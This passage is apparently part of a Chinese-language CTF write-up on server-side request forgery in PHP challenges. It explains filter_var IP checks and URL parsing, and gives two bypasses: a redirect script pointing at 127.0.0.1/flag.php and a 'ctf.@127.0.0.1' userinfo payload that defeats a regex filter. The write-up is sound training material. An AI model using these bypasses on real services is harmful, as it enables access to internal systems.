    - 使用 `filter_var()` 检查 IP 是否在私有或保留范围内。
   - `FILTER_FLAG_NO_PRIV_RANGE`: 禁止私有 IP 范围（如 `10.0.0.0/8`、`172.16.0.0/12`、`192.168.0.0/16`）。
   - `FILTER_FLAG_NO_RES_RANGE`: 禁止保留 IP 范围（如 `0.0.0.0/8`、`127.0.0.0/8`）。

5. **`file_get_contents()`**:

   - 获取 URL 的内容并输出。
   - 如果 URL 无效或无法访问，可能会导致警告或错误



#### 解法

在自己服务器上搭建一个,php--->ssrf.php

```php
<?php
header("Location:http://127.0.0.1/flag.php");
```

![image-20250115180504725](https://gitee.com/bx33661/image/raw/master/path/image-20250115180504725.png)



### web358

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
    echo file_get_contents($url);
}
```



Payload:

```(空)
url=http://ctf.@127.0.0.1/flag.php?show
```



这里列举一下url解析规则

#### url解析规则

URL（统一资源定位符）的解析规则是由标准定义的，通常遵循以下格式：

```
scheme://[user:password@]host[:port][/path][?query][#fragment]
```

每个部分的含义如下：

1. **Scheme（协议）**

   - 表示访问资源所使用的协议，例如 `http`、`https`、`ftp` 等。
   - 必须以 `://` 结尾。
   - 示例：
     ```
     http://example.com
     https://example.com
     ```
